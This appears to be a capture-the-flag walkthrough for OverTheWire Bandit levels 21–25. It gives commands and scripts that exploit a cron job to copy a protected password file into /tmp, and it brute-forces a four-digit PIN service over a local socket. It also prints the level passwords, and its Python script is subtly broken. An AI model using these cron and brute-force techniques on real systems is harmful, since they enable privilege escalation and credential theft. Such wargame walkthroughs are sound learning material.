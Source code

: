 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## Bash script [useful tool](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG





5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z  














